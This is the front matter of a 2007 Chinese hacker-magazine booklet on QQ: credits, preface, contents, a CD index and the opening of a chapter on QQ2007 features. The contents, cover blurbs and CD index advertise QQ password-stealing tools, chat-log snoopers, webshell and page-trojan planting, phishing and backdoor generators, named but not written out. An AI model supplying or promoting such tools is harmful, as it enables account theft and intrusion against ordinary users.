# QQ宝典3

## 黑客X档案 畅销杂志赠图书

- QQ甄别雇佣技巧，让你的QQ拒个性
- QQ超级辅助工具，让你轻松玩转QQ
- QQ空间全攻略，让你的空间绚酷
- QQ游戏积分大全，让你的QQ游戏更厉害
- QQ盗号拦截秘笈，让你随心所欲盗QQ会更安全
- QQ终极防护，让你再也不怕QQ，再也不寂寞
- QQ宠物培养大全，让你以后上网再也不寂寞


## 《黑客X档案》制作

## QQ宝典3

- 书　名：QQ宝典3
- 制　作：《黑客X档案》编辑部
- 出品人：孙胜利
- 策　划：杨东柱
- 编　辑：丛林 张万怡 hackest
- 平面设计：谭海梅
- 网　址：http://www.hackerxfiles.net
- 电　话：010-88560080
- 定　价：人民币13.80元
- 所载文字和图片，经著作权人授权本社，未经许可，不得转载。版权所有，违者必究。

## 前言

距离上次《QQ宝典2》的出版已经一年了，这一年中，QQ推陈出新，也由当初的QQ2006升级到了目前的QQ2007版，增加了许多新的功能和新的玩法。同样地，在网上相应的QQ辅助工具也是如此，许多旧的工具无法使用了，而又有许多新的工具出现。

为了让许多喜爱QQ的读者能够轻松玩转小企鹅，小编们经过数月的努力，终于隆重推出了最新的《QQ宝典3》。

《QQ宝典3》以目前最新的QQ2007版为例，囊括了目前最新、最实用的各种QQ小技巧，各种最新的QQ辅助工具的使用，各类QQ游戏的刷分大法，QQ宠物的获取和培养心得，QQ空间的个性使用，最新最实用的QQ盗号工具等。而随书的配套光盘中则收录了各种经典的QQ工具、QQ动画文件，以配合读者能够亲手试练操练。

如果各位读者对于QQ宝典系列图书有什么更好的意见和建议的话，可以通过 hackerxfiles@263.net 给我们发送电子邮件；如果大家有什么更好的经验以及工具想要共享、交流的话，也可以登录我们的论坛 http://bbs.hackerxfiles.net。希望大家从本书中都能找到自己想要的东西！

## 目录

## 第一章 玩转你的QQ

- 1.1 QQ最新版本简介 ...... 9
- 1.2 QQ信息任我查 ...... 11
- 1.3 一手掌握QQ业务 ...... 12
- 1.4 聊天机器人小Q ...... 13
- 1.5 在线杀毒好助手 ...... 14
- 1.6 随身携带的记事本 ...... 15
- 1.7 获赠的QQ秀继续送 ...... 15
- 1.8 隐身设置对其可见 ...... 16
- 1.9 隐藏QQ群、通讯录 ...... 16
- 1.10 会员凭什么红名字 ...... 17
- 1.11 好友恢复 ...... 17
- 1.12 网罗免费QQ秀 ...... 18
- 1.13 QQ网络硬盘不用排队 ...... 19
- 1.14 群公告显示最新帖子 ...... 19
- 1.15 变关闭为最小化 ...... 20
- 1.16 我的QQ号码是“10000” ...... 21
- 1.17 批处理制作强制聊天工具 ...... 22
- 1.18 QQ心情秀 ...... 23
- 1.19 远程查看聊天记录 ...... 24
- 1.20 一键登录QQ ...... 25
- 1.21 QQ不怕重装 ...... 25
- 1.22 防止QQ欺骗 ...... 26
- 1.23 QQ美化系列 ...... 28
- 1.24 玩转QQ邮箱 ...... 31
- 1.25 群中会员也有特权 ...... 33

## 第二章 菜鸟的QQ工具箱

- 2.1 新版泰国QQ英文版 ...... 34
- 2.2 QQ号码分析器 ...... 35
- 2.3 QQ换音大师 ...... 36
- 2.4 QQ窥视器 ...... 37
- 2.5 QQ精灵 ...... 38
- 2.6 QQ空间强制关注代码生成器 ...... 39
- 2.7 QQ聊天机器人 ...... 40
- 2.8 QQ奇形异字 ...... 40
- 2.9 冰城QQ刷屏器 ...... 41
- 2.10 QQ相册快速下载 ...... 42
- 2.11 QQ小工具 ...... 43
- 2.12 QQ字符画大师 ...... 43
- 2.13 梧桐QQ软端登录器 ...... 44
- 2.14 QQ申请助手 ...... 45
- 2.15 QQ好友偷窥者 ...... 46
- 2.16 QQ空间小工具 ...... 47
- 2.17 QQ账户查询软件 ...... 48
- 2.18 QQ全自动财富查询 ...... 49
- 2.19 QQ聊天记录偷看器 ...... 49
- 2.20 珊瑚虫机器人 ...... 50
- 2.21 QQ宠物保姆 ...... 54
- 2.22 QQ代理发布器2007 ...... 56
- 2.23 QQ空间人气精灵 ...... 57
- 2.24 QQ个人信息速查 ...... 58
- 2.25 QQ个性头像制作工具 ...... 60
- 2.26 QQ空间小秘书 ...... 60
- 2.27 个性QQ随我设置 ...... 62
- 2.28 酷UI挂Q ...... 63
- 2.29 QQ第六感 ...... 64

## 第三章 QQ宠物跟我玩

- 3.1 初养QQ宠物成长的健康指引 ...... 66
- 3.2 让宠物打工来自食其力的生活 ...... 67
- 3.3 宠物娱乐，旅游可以提升心情属性值 ...... 68
- 3.4 出门旅游少不了的交通工具 ...... 68
- 3.5 宠物炫，交流中的一种调皮方式 ...... 68
- 3.6 查看Q宠宝贝的当前状态 ...... 69
- 3.7 宠物生病以及不幸死亡的治疗方法 ...... 69
- 3.8 为宠物安置一个舒适的家 ...... 70
- 3.9 QQ宠物结婚 ...... 70
- 3.10 宠物蛋的领取和赠送 ...... 71
- 3.11 喜新厌旧：宠物离婚 ...... 71
- 3.12 让Q宠宝贝能够与众不同 ...... 71
- 3.13 20级Q宠可以去冒险岛“旅游” ...... 72
- 3.14 群消息设置提醒 ...... 72
- 3.15 拒绝其他好友的Q宠打扰 ...... 72
- 3.16 聘请Q宠保姆，帮您妥善喂养自己的“虚拟宝宝” ...... 72

## 第四章 打造最闪亮的QQ空间

- 4.1 开通QQ个人空间 ...... 74
- 4.2 QQ空间模板任意设 ...... 74
- 4.3 如何撰写自己的日志 ...... 75
- 4.4 添加空间音乐收藏 ...... 75
- 4.5 使用留言板给访客留言 ...... 76
- 4.6 玩转QQ空间相册 ...... 77
- 4.7 管理自己个人档案 ...... 78
- 4.8 使用互动功能 ...... 78
- 4.9 装扮自己的QQ空间 ...... 78
- 4.10 制作自己的大头贴 ...... 79
- 4.11 流行当一名好的养花匠 ...... 79
- 4.12 利用工具玩转QQ空间 ...... 80
- 4.13 QQ空间加上个性化Flash ...... 81
- 4.14 使用RSS阅读器，快速查看空间更新内容 ...... 82
- 4.15 相册里的快捷浏览 ...... 82
- 4.16 在第一时间里，知道QQ空间内的网友留言 ...... 82
- 4.17 上传QQ日志，我用QQ邮箱 ...... 83
- 4.18 利用QQ空间盗你QQ号码 ...... 83

## 第五章 QQ游戏全攻略

- 5.1 QQ游戏多开截图 ...... 85
- 5.2 QQ无敌记牌器 ...... 85
- 5.3 QQ新斗地主刷分器 ...... 85
- 5.4 QQ连连看外挂 ...... 86
- 5.5 QQ对对碰外挂 ...... 87
- 5.6 QQ泡泡龙瞄准器 ...... 87
- 5.7 QQ五子棋外挂 ...... 87
- 5.8 QQ火拼俄罗斯外挂 ...... 88

## 第六章 QQ黑客研究院

- 6.1 问鼎木马终结者 ...... 89
- 6.2 金狐QQ2007大盗 ...... 91
- 6.3 思思盗号王 ...... 92
- 6.4 VVQQ大盗 ...... 94
- 6.5 挖掘鸡 ...... 96
- 6.6 利用KingCMS漏洞快速拿WebShell ...... 98
- 6.7 网页挂马大集合 ...... 99
- 6.8 我们来批量挂马 ...... 102
- 6.9 模拟抢号码 ...... 103
- 6.10 迅雷、BT来放马 ...... 117
- 6.11 大家一起来钓鱼 ...... 119
- 6.12 破解QQ邮箱 ...... 121

## 第七章 QQ终极防护

- 7.1 QQ邮箱防护 ...... 122
- 7.2 QQ账号保护 ...... 124
- 7.3 QQ终极申诉 ...... 126

## QQ宝典3

## 光盘索引



### 图书超卖

- 泰国QQ练英语
- QQ号码分析器
- QQ换音大师
- QQ减负器
- QQ精灵
- QQ空间强制关注
- QQ聊天机器人
- QQ奇形异字
- QQ刷屏器
- QQ相册快快下载
- QQ小工具
- QQ字符画大师
- 梧桐QQ欺骗登录器
- QQ申请助手
- QQ好友偷窥者
- QQ空间工具
- QQ账户查询软件
- QQ全自动财富查询
- QQ聊天记录偷看器
- 珊瑚虫机器人
- QQ宠物保姆
- QQ代理发布器2007
- QQ空间人气精灵
- QQ个人信息速查
- QQ个性头像制作工具
- QQ空间小秘书

### QQ工具

- QQ2007正式版
- TM2008 Preview2
- QQ工具栏2.0beta
- QQ医生1.3 Beta KB2
- QQ日历
- QQTalk Beta1
- Web加速器1.0 Beta02
- QQLive6 RTX2007 Beta1
- 腾讯TT3.8简体中文版
- 超级旋风1.5.135
- QQ场景编辑器
- QQ皮肤编辑器
- QQ对战平台
- QQ连连看
- QQ好友群发工具

### QQ教程

- QQ废物利用教程
- QQ空间挂件随意用
- 免费开通QQ一些业务
- 免费拿QQ秀
- 免费用空间物品的代码教程
- 制作人妖QQ秀教程
- 史上最强的QQ假视频教程
- 开满QQ所有业务+刷QQ等级教程
- 暴力破解QQ教程
- 最新免费得QQ秀教程
- 最详细刷会员4钻业务（语音）教程
- 用飞信免费得礼品教程
- 秀出你的个性QQ视频教程
- 网吧交友教程
- 解除手机绑定教程
- 详解网页木马制作及挂马全过程

### 黑武器

- 全自动135端口超高速扫描抓鸡
- 1.5K心动下载者
- 宝贝鱼黑客百宝箱1.0
- 剑煞Beta V7.6.8
- QQ聊天提取器
- DarkLabel 1.0 B1
- Shift后门生成器
- August_终极组合网马生成器v2

### 娱乐百科

- 3000个最新QQ表情
- 700个悠嘻猴表情
- 兔斯基QQ表情集
- 游戏：彩虹岛
- 游戏：crayon
- QQ堂最新客户端fix8
- 电脑全知识208篇

## QQ最新版本简介

每一年，腾讯都会推出新版本的QQ，而QQ每次的更新，都会带来一些新功能、新玩法。2007年也不例外，下面就让我们来看一下自QQ2006正式版后新增加的功能吧！

自QQ2006正式版中，QQ就增加了类似MSN显示输入状态的功能（图1），更加方便了我们的聊天。选用了该功能后，在与好友聊天时可以让对方即时看到我们的输入状态。当然，这是一个可选功能，可以通过在菜单→设置→个人设置→状态显示中取消该功能（图2）。

### QQ2006正式版

1. 新增了会话窗口内显示输入状态的功能  
2. 新增了举报恶意用户的功能  
3. 新增了在线查杀盗号木马的主菜单入口  
4. 改进了用户头像旁浮动资料小窗口的设计  
5. 优化了登录及打开会话窗口的速度和性能  
6. 优化了远程协助功能的体验  
7. 优化了登录输入密码的保护措施  
8. 压缩了安装包文件的大小

#### QQ2007 Beta1

1. 新设计了QQ2007皮肤  
2. 新增了登录前使用QQ医生进行安全检查的功能  
3. 新增了会话窗口内的举报功能  
4. 优化了登录提醒的体验

#### QQ2007 Beta2

1. 新增了登录前自动安全检查功能  
2. 新增了截图编辑功能  
3. 优化了会话窗口内的QQ秀表现  
4. 优化了拍拍网场景下的临时会话体验  
5. 优化了好友间放歌体验  
6. 改进了安装程序流程

#### QQ2007 Beta3

1. 优化了拍拍网场景下的临时会话体验  
2. 举报功能体验优化  
3. 优化了添加自定义表情界面

### QQ2007 Beta4（兼容Windows Vista系统）

1. 新增了QQ会员表情漫游  
2. 新增了QQ会员群里显示红色昵称  
3. 新增QQ空间面板  
4. 优化了拍拍网场景下的临时会话体验

#### （1）显示输入状态





#### （2）举报恶意用户

如果你遇到恶意QQ账号的骚扰、欺骗或者其他不良行为，可以将该QQ账号举报给QQ的客服，并填写详细的举报原因。进行调查确定属实后，将对该恶意QQ账号采取登录限制等措施，以保证QQ交流环境的健康和安全（图3）。

不光可以举报恶意用户，如果发现或者怀疑某个网址带有恶意程序或者其网站是不健康网站，也可以进行相应举报。也可以将该网站的网址举报，并填写详细的举报原因，经证明的恶意网址，将被限制通过QQ传播（图4）。我们可以通过一己之力打造和谐的QQ交流环境。

#### （3）QQ医生与安全检查

现在的QQ木马泛滥成灾，新版本的QQ当然要采取一些相应的防范措施，因此QQ医生和安全检查的功能在新版QQ上受到了重视。在安装QQ时，我们会看到如图5所示的提示，在这里可以进行安全设置，同时安装完成后还可以在QQ的安全设置中修改相关选项。

以后会在登录窗口的左下角看到“查杀木马”的按钮（图6），点击此按钮就可以进行安全检查了。





QQ医生是专门针对QQ账号密码被盗而提供的一款盗号木马查杀工具，它将准确扫描并有效消除盗号木马，从而保障QQ账号不被盗号木马所盗取。QQ医生还将扫描盗号木马能够利用的Windows操作系统漏洞，并提供补丁安装，从而消除了盗号木马入侵电脑的隐患（图7）。







#### （4）截图编辑功能

在QQ2007 Beta2里对截图功能进行了全面优化，不仅支持截图时自动隐藏当前窗口，还支持简单的图形编辑功能，让我们截图随意，编辑随心。当我们使用“Ctrl+Alt+A”截图时，就可以随时通过“截图”下的“显示截图编辑工具栏”来找出截图编辑工具（图8、图9），对截图进行简单的编辑了。

